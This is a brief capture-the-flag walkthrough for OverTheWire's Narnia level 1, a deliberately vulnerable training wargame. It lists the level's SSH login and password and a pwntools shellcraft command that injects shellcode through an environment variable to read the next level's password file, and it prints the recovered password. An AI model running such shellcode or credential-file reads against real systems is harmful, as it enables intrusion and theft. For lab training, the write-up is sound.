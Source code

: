 ```yaml
---
title: narnia 1 walkthrough
description: over the wire narnia 1
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: narnia-1 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: narnia 1 walkthrough
    order: 30
---
```

## Description
> correct variable value via writing to another variable

connect
```bash
$ ssh narnia1@narnia.labs.overthewire.org -p 2226
eaa6AjYMBB
```
execute
```bash
$ /narnia/narnia1
Give me something to execute at the env-variable EGG
```

---
## Hint

---

## Progress
Steps
1. set shellcode as the value of env-variable EGG
```bash
$ export EGG=`shellcraft -f r cat /etc/narnia_pass/narnia2`
```
2. execute it
```bash
$ /narnia/narnia1
Trying to execute EGG!
Zzb6MIyceT
Segmentation fault (core dumped)
```

---


## Techniques
- [[shellcode]]

## Tools
